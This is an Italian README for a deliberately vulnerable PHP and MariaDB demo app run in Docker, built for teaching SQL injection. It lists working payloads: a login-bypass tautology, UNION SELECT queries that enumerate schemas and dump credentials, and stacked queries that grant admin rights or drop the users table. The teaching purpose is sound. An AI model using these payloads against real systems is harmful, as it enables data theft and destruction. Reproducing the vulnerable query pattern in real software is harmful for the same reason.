 # SQL Injection Demo App (PHP + MariaDB + Docker)

Questa applicazione è stata creata per scopi didattici e dimostra le vulnerabilità SQL Injection più comuni in un contesto web.

---

## Funzionalità

- Login vulnerabile (tautologia)
- Dashboard con elenco parziale dei dati degli utenti
- Form di ricerca email vulnerabile a:
  - UNION SELECT
  - Esfiltrazione dati da `information_schema`
  - Piggybacking (`DROP`, `UPDATE`)
- Style CSS semplice incluso

---

## Tecnologie

- PHP (senza framework)
- MariaDB 10.5
- Docker & Docker Compose

---

## Avvio dell'applicazione

1. Clona il progetto

```bash
git clone https://github.com/BlackCodeReaper/sqli-project.git
cd sqli-project
```

2. Avvia i container

```bash
docker-compose up --build
```

L'app sarà disponibile su `http://localhost:8080/login.html`

---

## Login di esempio

Tautologia:
```
Username: ' OR 1=1 #
Password: qualsiasi
```

Credenziali reali:
```
Username: admin
Password: admin123
```

---

## Esecuzione di attacchi SQLi

Tautologia:
```
' OR 1=1 #
```

Scoprire nome database:
```
' UNION SELECT 'Nome database:', DATABASE(), '', '', '' #
```

Elencare tutti gli schemi:
```
' UNION SELECT schema_name, '', '', '', '' FROM information_schema.schemata #
```

Elencare tabelle:
```
' UNION SELECT 'Nome tabella:', table_name, '', '', '' FROM information_schema.tables WHERE table_schema='sqli_project' #
```

Elencare colonne:
```
' UNION SELECT 'Nome colonna:', column_name, '', '', '' FROM information_schema.columns WHERE table_name='utenti' AND table_schema='sqli_project' #
```

Leggere credenziali:
```
'UNION SELECT 'ID', 'username', 'password', 'email', 'telefono' UNION SELECT id, username, password, email, telefono FROM utenti #
```

Aggiornare un utente:
```
' ; UPDATE utenti SET ruolo = 'admin' WHERE username = 'user1'; --
```

Cancellare la tabella:
```
' ; DROP TABLE utenti; --
```

---

## Ripristino del database

Se la tabella o il database vengono eliminati durante i test, puoi ricostruire tutto con:

```bash
docker-compose down -v
docker-compose up --build
```

---

## Crediti

Progetto sviluppato per scopi didattici. **Non usare in ambienti di produzione.**